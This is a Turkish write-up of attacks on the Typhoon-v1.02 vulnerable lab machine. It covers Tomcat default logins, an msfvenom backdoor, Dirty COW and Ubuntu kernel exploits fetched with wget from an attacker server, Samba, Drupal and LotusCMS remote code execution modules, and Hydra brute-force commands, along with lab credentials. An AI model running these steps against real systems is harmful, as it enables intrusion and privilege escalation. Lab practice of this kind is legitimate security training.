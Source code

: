 ```yaml
---
title:  "Typhoon-v1.02 WRITEUP"
author: "Alp Eren Işık"
background: "/img/posts/typhoon.png"
date:   2018-10-28
---
```


***Hazırlayanlar: [Alp Eren Işık](https://github.com/isikerenalp)  [Feyzi Yuşa Karababa](https://github.com/Fykarababa) ***

***
PRISMA CSI tarafından hazırlanan Typhoon-v1.02 makinesini elimizden geldiği kadar çözmeye çalıştık ve sizler için ufak bir writeup hazırladık. Biz çözerken çok zevk aldık umarım sizler içinde zevkli bir writeup olur.

***

# `NMAP`
  İlk aşamada Nmap ile port taraması yaparak çalışan servisleri ve versiyonları öğrendik.
  Devamında bu servisler ve versiyonları üzerinden mevcut exploitleri araştıracağız.

  ![nmap](/img/posts/typhoon-v1/nmap.png)

# `Apache Tomcat`
  Metasploit kullanarak **use auxiliary/scanner/http/tomcat_mgr_login** scanner kullanarak tomcat parolasını bulmaya çalışıyoruz.

  ![](/img/posts/typhoon-v1/msf1.png)

  Aşşağıda gördüğünüz gibi tomcat username ve password bulmuş oluyoruz

  ![](/img/posts/typhoon-v1/msf2.png)

  Daha sonra **10.242.24.216:8080/manager** adresine giderek bulmuş olduğumuz **username** `(tomcat)` ve **password** `(tomcat)` ile giriş yapıyoruz.

  ![](/img/posts/typhoon-v1/tomcat_tomcat.png)

  Giriş yaptıktan sonra tekrar Metasploitimize geri dönüyoruz ve **msfvenom** ile backdoor oluşturuyoruz.

  ![](/img/posts/typhoon-v1/msf3.png)

  Daha sonra oluşturmuş olduğumuz bu backdooru girmiş olduğumuz **tomcat** üzerinden **deploy** ediyoruz

  ![](/img/posts/typhoon-v1/tomcat_deploy.png)

  Deploy ettikten sonra tekrar Metasploitimize gelerek `use exploit/multi/handler` yazıyoruz daha sonra modülümüze bağlanacağımız backdoor payloadımızı ve bilgilerimizi giriyoruz.

  Artık tarayıcımızdan `10.242.24.216:8080/manager/typhoon/lyrzruiw.jsp` adresine girebiliriz.


  ![](/img/posts/typhoon-v1/msf4.png)

  ![](/img/posts/typhoon-v1/tomcat_backdoor.png)

  Bu aşamadan sonra sunucuda **ROOT** olmaya çalışacağız.


# `Yetki Yükseltme - 1 (dirtycow)`
    https://www.exploit-db.com/exploits/40616
  Backconnect olduğumuz makinemizde **C** kodunu derleyemediğimiz için derleme işlemini uzak sunucuda gerçekleştirmeye karar verdik.

  Uzak sunucumuzda `wget https://www.exploit-db.com/raw/40616/index.html` ile komutları çektik ve uzak sunucumuzda bunu derledik. Daha sonra Typhoon makinesinde `wget https://sunucu_adresi/prisma` diyerek derlenmiş **C** kodunu makinemize yüklemiş olduk. Derleyip wget ile çekmiş olduğumuz exploitimizi makinemizde çalıştırdık ve **ROOT** olduk. Son olarak `echo 0 > /proc/sys/vm/dirty_writeback_centisecs` komutunu girerek exploitimizin stabil olmasını sağlayarak sunucunun crash olmasını engelliyoruz. :)

  ![](/img/posts/typhoon-v1/msf5_dirtycow.png)

# `Yetki Yükseltme - 2 (Ubuntu Kernel Exploit)`
    https://www.exploit-db.com/exploits/37292/
Yukarıda anlatmış olduğumuz işlemleri bu exploitimiz ile de uygulayarak `wget https://sunucu_adresi/ubn` ile çekmiş olduğumuz exploitimizi makinemizde çalıştırarak  **ROOT** oluyoruz. :)

![](/img/posts/typhoon-v1/msf5_ubuntu_exploit.png)

# `Samba smbd 3.X - 4.X (ROOT)`
    Github Code = https://github.com/rapid7/metasploit-framework/blob/0520d7cf76f8e5e654cb60f157772200c1b9e230/modules/exploits/linux/samba/is_known_pipename.rb

Çalışan versiyonda bir exploit olduğunu öğrendik. Githubda bulduğumuz kodu `wget` ile **/opt/metasploit/modules/exploits/linux/samba/** dizini altına **is_known_pipename.rb** ismiyle kaydettik. Daha sonra metasploit üzerinden exploiti kullanarak makinemizde **ROOT** olduk. :)

![](/img/posts/typhoon-v1/samba.png)  

    NOT: Eğer bu aşamadan sonra root olmaz ise devamında dirtycow ile rootlayabilirsiniz.

# `Phpmyadmin Username && Password`
Sunucumzuda root olduktan sonra içeriye bir de shell atalım dedik. Shellimizden dizinleri ve dosyaları gezerken `/var/www/html/dvwa/config/config.inc.php` dosyası içerisinde **phpmyadmin** kullanıcı adı ve parolasını bulduk.

![](/img/posts/typhoon-v1/phpmyadmin1.png)

![](/img/posts/typhoon-v1/phpmyadmin2.png)

![](/img/posts/typhoon-v1/phpmyadmin3.png)

# `Kullanıcı Adı ve Parolası`
Shellimizi attıktan sonra bir de mongoadmin dikkatimizi çekti ve biz de  `http://192.168.43.114/mongoadmin/` adresine gittik.

**credentials** Bir değişiklik yapmadan bu şekilde aratıyoruz.

![](/img/posts/typhoon-v1/mongoadmin1.png)

**creds (2)**

![](/img/posts/typhoon-v1/mongoadmin2.png)

Kullanıcı adı ve parolasını öğrenmiş olduk.

![](/img/posts/typhoon-v1/mongoadmin3.png)

URL= `http://192.168.43.114/mongoadmin/index.php?db=credentials&action=listRows&collection=creds`

**Username** : `typhoon` && **Password** : `789456123`

![](/img/posts/typhoon-v1/login.png)


# `PostgreSQL DB 9.3.3 - 9.3.5 Exploit ile Dosya Okuma`
Çalışan PostgreSQL sürümünde dosyaları okumamıza imkan sağlayan bir exploit olduğunu farkettik. ve  Metasploitimiz ile işe koyulmaya başladık :)

    auxiliary/admin/postgres/postgres_readfile

    Not: 'exploit' yerine 'set RFILE ../okunacak_dosya' komutu ile dosyaları okuyabilirsiniz

![](/img/posts/typhoon-v1/postgresql_read-file.png)


# `Drupal-8 RCE`
***
view-source:http://192.168.1.60/drupal diyerek drupalın sürümünün 8 olduğunu öğrendikten sonra aklımıza Drupal-8 de bulunan RCE geldi.

Drupal RCE CVE-2018-7600 : https://www.exploit-db.com/exploits/44448/  

***
Drupalın **register** bölümünde mevcut olan `RCE` zaafiyeti.

![](/img/posts/typhoon-v1/drupal.png)

Bunun dışında şöyle bir yöntem izlenebilir , drupalın default olarak config dosyası **sites/default/settings.php** de bulunmakta. Bunu `RCE` açığı ile okuyup database username ve password bilgileri alınıp phpmyadmine giriş yapılabilir.

![](/img/posts/typhoon-v1/drupal2.png)

**NOT:** `Post olarak gönderdiğimizde ilk olarak shell atmaya çalıştık fakat drupalın dizininde yazma izni yoktu. Ardından pwd komutu ile bulunduğu dizini öğrendik. Sonra var/www/html dizininde yazma izni olduğunu gördük ve shellimizi yükledik. :)`

# `LotusCMS RCE Exploit`
    use exploit/multi/http/lcms_php_exec
    https://www.exploit-db.com/exploits/18565/
  Sistemin kullandığı CMS yazılımının LotusCMS olduğunu öğrendik ve google'da kısa bir araştırma yaptıktan sonra **RCE** exploitinin olduğunu gördük. Daha sonra kullanacağımız exploiti ve bilgilerimizi girdikten sonra `exploit` diyerek çalıştırıyoruz.

![](/img/posts/typhoon-v1/lotuscms.png)

# `Brute Force ile Parola Tespiti`
***
  Burada Hydra ile **SSH** ve **FTP** 'ye brute force yaparak parolayı bulduk.

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ssh

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ftp
***
`SSH`

![](/img/posts/typhoon-v1/hydra-ssh.png)

`FTP`

![](/img/posts/typhoon-v1/hydra_ftp.png)
